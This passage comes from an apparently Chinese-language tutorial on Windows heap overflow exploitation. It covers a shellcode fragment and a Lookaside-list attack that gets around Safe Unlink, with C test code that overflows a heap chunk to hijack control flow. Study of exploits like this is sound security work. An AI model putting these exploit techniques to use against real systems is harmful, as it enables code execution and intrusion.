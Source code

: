 ```c
	"\x53\x68\x2d\x6a\x6f\x62\x68\x67\x6f\x6f\x64\x8b\xc4\x53\x50\x50"
	"\x53\xff\x57\xfc\x53\xff\x57\xf8";
```

编译运行，跟入shellcode，可以发现借助两次短跳控制流成功跳到payload：

![Bildschirmfoto 2018-11-03 um 6.04.15 PM.png]({{ site.url }}/images/0day/B71E9BE84A7D905067B9F299FDAFBE2F.png)

![Bildschirmfoto 2018-11-03 um 6.04.23 PM.png]({{ site.url }}/images/0day/D5B1C7FC48D63C1BAEE9289CF882549A.png)

我们注释掉断点，编译运行：

![Bildschirmfoto 2018-11-03 um 6.06.24 PM.png]({{ site.url }}/images/0day/63C55CC49BE915CD13493B04F7F67AB7.png)

成功！

## 利用Lookaside表进行堆溢出

Safe Unlink对于快表中的单链表不做验证，所以我们本节来实现对快表的攻击。

关于快表的结构可以参考[0day安全 Chapter 5 堆溢出利用](https://wohin.me/0day/2018/06/14/0day5.html)。下图是正常情况下从快表拆卸一个节点的过程：

![Bildschirmfoto 2018-11-03 um 8.27.54 PM.png]({{ site.url }}/images/0day/54BE0EF6F4F0700E682FF0C935B584E6.png)

对快表的攻击过程如下：

![Bildschirmfoto 2018-11-03 um 8.33.25 PM.png]({{ site.url }}/images/0day/14ECF70004E3FCD82DA8C7A9FAE07E11.png)

测试代码如下：

```c
#include <string.h>
#include <stdio.h>
#include <windows.h>

void main()
{
	char shellcode[] = 
	"\x90..."
	;

	HLOCAL h1, h2, h3;
	HANDLE hp;
	hp = HeapCreate(0, 0, 0);
	__asm int 3
	h1 = HeapAlloc(hp, HEAP_ZERO_MEMORY, 0x10);
	h2 = HeapAlloc(hp, HEAP_ZERO_MEMORY, 0x10);
	h3 = HeapAlloc(hp, HEAP_ZERO_MEMORY, 0x10);

	HeapFree(hp, 0, h3);
	HeapFree(hp, 0, h2);

	memcpy(h1, shellcode, 300);

	h2 = HeapAlloc(hp, HEAP_ZERO_MEMORY, 0x10);
	h3 = HeapAlloc(hp, HEAP_ZERO_MEMORY, 0x10);
	memcpy(h3, "\x90\x1e\x3a\x00", 4); // 0x003a1e90 is h1 address

	int zero = 0;
	zero = 1 / zero;
	printf("%d", zero);
}
```
